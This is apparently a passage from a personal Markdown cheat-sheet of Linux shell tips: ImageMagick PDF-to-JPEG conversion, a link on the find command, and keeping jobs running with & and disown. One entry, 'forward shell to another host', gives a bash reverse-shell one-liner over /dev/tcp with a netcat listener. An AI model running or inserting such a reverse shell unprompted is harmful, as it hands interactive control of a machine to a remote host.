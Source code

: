         2. use `convert` like this:

            ```bash
            convert input.pdf output.jpg

            # For good quality use these parameters
            convert -density 300 -quality 100 in.pdf out.jpg
            ```

+ ##### *forward shell to another host*

    ```bash
    bash -i >& /dev/tcp/<host-ip>/<port> 0>&1
    ```

    Example:

    1. On host machine run  `#!bash bash -i >& /dev/tcp/192.168.218.1/9999 0>&1` where:

        1. `192.168.218.1` is the host to which you want to forward the shell(note that you can also use a hostname but I strongly suggest you use an IP to prevent issues with hostname-resolving)
        1. `9999` is the port number on which the netcat listener will listen

    2. Start the *netcat listener* on the other side by running `#!bash nc -l 9999`.

        1. Double check that there are no firewall rules preventing you from accepting connections.
        1. Some versions of netcat require you to add `-p` before the port number.

+ ##### *"find"*

    + [ ] [15 супер полезных примеров команды find в Linux](https://habr.com/ru/company/first/blog/593669/)

#### Run Commands in the Background

1. End a Command with **&**

    !!! note

        When the terminal session is closed, the command ends. You can also kill the command by issuing the `jobs` command, finding the number of the command that’s running, and killing it with the `kill` command: `kill %1`

    !!! warning

        Using `&` doesn’t disconnect the command away from you; it just pushes it into the background. You can verify this by typing `jobs` into the terminal. This means that while you’re trying to use the terminal, anything the command wants to push to `STDOUT` or `STDERR` will still be printed, which may be distracting, e.g. `ping google.com &`. If you’re looking to prevent this, consider redirecting the command to “/dev/null”: `COMMAND &>/dev/null &`

2. **&** After a Command, Then **Disown** It

    !!! note

        Using `disown` after running command with `&` keep this command running in constant, even with your terminal session ending. It’ll still keep piping things to `STDOUT` or `STDERR`, but once you exit and reopen your terminal, you won’t see anything there. You can find the command again with the `top` or `ps` commands and kill it with the `kill` command.
